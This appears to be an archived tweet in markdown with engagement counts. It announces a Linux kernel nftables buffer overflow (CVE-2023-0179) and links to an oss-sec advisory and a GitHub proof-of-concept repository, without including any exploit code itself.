<td></td>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>93</code></td>
<td>Favorites: <code>252</code></td>
</tr></table>

---

# 0xor0ne
**https://twitter.com/0xor0ne/status/1630840679940210688 _at 2023-03-01, 08:01:32_**
<blockquote>
Example of buffer overflow in Linux kernel (6.2.0-rc1) with exploit PoC by Davide Ornaghi (@TurtleARM97) (CVE-2023-0179 affecting nftables)

https://t.co/5UyLN1XSUo
GitHub PoC repo: https://t.co/92iBuCB0GZ 

#Linux #kernel #infosec #cybersecurity #cve https://t.co/EWfpQUpbDJ
</blockquote>

* https://seclists.org/oss-sec/2023/q1/20
* https://github.com/TurtleARM/CVE-2023-0179-PoC

<table><tr>
<td></td>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>80</code></td>
<td>Favorites: <code>204</code></td>
</tr></table>

---

